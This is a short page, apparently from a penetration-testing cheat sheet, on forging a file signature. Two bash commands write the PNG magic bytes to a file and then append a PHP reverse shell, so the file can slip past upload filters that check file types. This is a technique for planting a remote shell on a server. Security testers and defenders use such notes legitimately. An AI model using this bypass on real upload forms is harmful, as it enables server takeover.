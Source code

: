```yaml
---
title: "Magic Bytes"
date: 2024-7-2
tags: ["file upload", "magic bytes", "png", "bypass"]
---
```


---
### Forge File Signature

{{< tab set1 tab1 active >}}png{{< /tab >}}
{{< tabcontent set1 tab1 >}}

<div>

```bash
echo '89 50 4E 47 0D 0A 1A 0A' | xxd -p -r >> php-reverse-shell.php.png
```

```bash
cat php-reverse-shell.php >> php-reverse-shell.php.png
```

</div>

{{< /tabcontent >}}

<br>